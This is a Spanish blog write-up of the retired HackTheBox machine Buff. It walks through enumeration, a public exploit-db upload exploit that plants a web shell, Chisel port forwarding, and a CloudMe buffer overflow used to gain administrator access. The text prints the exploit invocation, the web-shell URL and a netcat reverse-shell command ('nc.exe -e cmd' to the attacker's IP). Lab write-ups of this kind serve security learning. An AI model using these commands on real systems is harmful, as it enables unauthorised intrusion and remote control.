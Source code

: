 ```yaml
---
layout: single
title: Writeup HTB - Maquina Buff
comments: true
excerpt: "Hola a todos hace poco la maquina Buff se retiró. Por lo tanto, escribo este writeup para compartirles como pude resolver esta máquina tan divertida."
date: 2020-11-26
classes: wide
header:
  teaser: /assets/images/writeup-maquina-htb-buff/Screenshot_1.jpg
  teaser_home_page: true
categories:
  - HackTheBox
tags:
  - OSCP
  - HackTheBox
  - Hacking
---
```


<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_1.jpg">
</p>

Hola a todos hace poco la maquina Buff se retiró. Por lo tanto, escribo este writeup para compartirles como pude resolver esta máquina tan divertida.

Comenzamos, primero haremos un escaneo con nmap a todos los puertos

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_2.jpg">
</p>

Vemos que solo nos arroja los puertos abiertos 7680, 8080. Asi que corramos con nmap para ver la versión de los servicios 

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_3.jpg">
</p>

Lo más interesante que vemos es el puerto 8080, así que veámoslo en el navegador 

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_4.jpg">
</p>

Vemos que hay una aplicación web, entonces se me ocurre pasarle un whatweb para ver que tecnologías usa

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_5.jpg">
</p>

Esto nos sirve para confirmar lo que nos dice nmap y saber que usa PHP. Ahora usemos Gobuster para un scaneo de directorios

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_6.jpg">
</p>

Lo mas interesante fue /upload.php

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_7.jpg">
</p>

Sin embargo, me salía esto, así que empecé a revisar la web y encontré el nombre de la aplicación

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_8.jpg">
</p>

Así que se me ocurrió buscar un exploit en exploit-db

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_9.jpg">
</p>

Revisemos el exploit para ver como usarlo 

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_10.jpg">
</p>

Vemos que usarlo no es complicado solo Poner

```bash
Python 48506.py http://10.10.10.198:8080/
```

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_11.jpg">
</p>

Como vemos nos genera una Shell no tan buena porque no nos deja trabajar cómodamente. La explicación es sencilla lo que pasa que este exploit nos sube un archivo con doble extensión kamehameha.php.png para hacer el bypass y que no es nada menos que nuestra Shell y le hace consultas por GET todos los comandos que hagamos y lo imprime en consola.

```bash
http://10.10.10.198:8080/upload/kamehameha.php?telepathy=comando
```

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_12.jpg">
</p>

Por eso haremos una Shell más cómoda para eso necesitamos subir al servidor nuestro nc.exe con impacket-smbserver

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_13.jpg">
</p>

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_14.jpg">
</p>

Dejamos en escucha el puerto 4445

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_15.jpg">
</p>

Ejecutamos nc.exe de esta manera nc.exe -e cmd 10.10.14.75 4445 para conectarnos a nuestra ip para generar nuestra Shell 

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_16.jpg">
</p>

Ahora a buscar nuestra flag de user con exito

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_17.jpg">
</p>

Si intentamos entrar la carpeta de Administrador para buscar la flag nos sale Acess is Denied

## Escalamiento de Privilegios

Llegamos aquí en la parte mas interesante en escalar privilegios con permisos de admin, revisando las carpetas Downloads vemos que hay un ejecutable CloudMe_1112.exe, Tengamos presente esto

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_18.jpg">
</p>

Revisemos los procesos abiertos con el comando: Tasklist

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_19.jpg">
</p>

Vaya vaya, veamos los puertos en escucha con el comando: netstat -ano 

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_20.jpg">
</p>

Revisando con powershell que proceso está usando los puertos en especial el puerto 8888, verificamos que el Proceso CloudMe está usando el puerto 8888

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_21.jpg">
</p>

Así que me puse a buscar un exploit para CloudMe y existe uno que hace un buffer overflow, Lamentablemente este puerto está en escucha internamente y no podemos acceder a ella me imagino por un firewall

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_22.jpg">
</p>

Entonces no nos queda mas que hacer Port Forwarding, redirigir el trafico del puerto 8888 a nuestro 127.0.0.1:8888 para poder atacar localmente a la maquina victima con nuestro exploit. Por lo tanto tendremos que usar Chisel 

<center><a href='https://github.com/jpillora/chisel/releases/tag/v1.7.2'>https://github.com/jpillora/chisel/releases/tag/v1.7.2'</a></center><br>

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_23.jpg">
</p>

Para esta maquina yo descargare chisel_1.7.2_windows_386.gz y chisel_1.7.2_linux_amd64.gz y las descomprimiré, para luego de nuevo subir a chisel.exe

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_24.jpg">
</p>

Ya desde nuestra maquina ejecuto el ejecutable en Linux con el siguiente comando con el puerto 9001

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_25.jpg">
</p>

Y en la maquina victima ponemos el siguiente comando con nuestra ip y nuestro puerto 9001 que dejamos en escucha 

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_26.jpg">
</p>

Ya que creamos el túnel con éxito , ahora debemos generar el payload para agregarlo a nuestro exploit 

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_27.jpg">
</p>

La única modificación que haremos es reemplazar el payload en el exploit

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_28.jpg">
</p>

Ahora dejamos en escucha el puerto 4486 

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_29.jpg">
</p>

Y corremos nuestro exploit y bum Shell creada con permisos de administrador 😉 .  Ahora busquemos nuestro Flag. Espero que le haya gustado el WriteUp, como a mí me gusto escribirla. Aprovecho para saludad a Angussmoody y Nextco por el apoyo con esta maquina.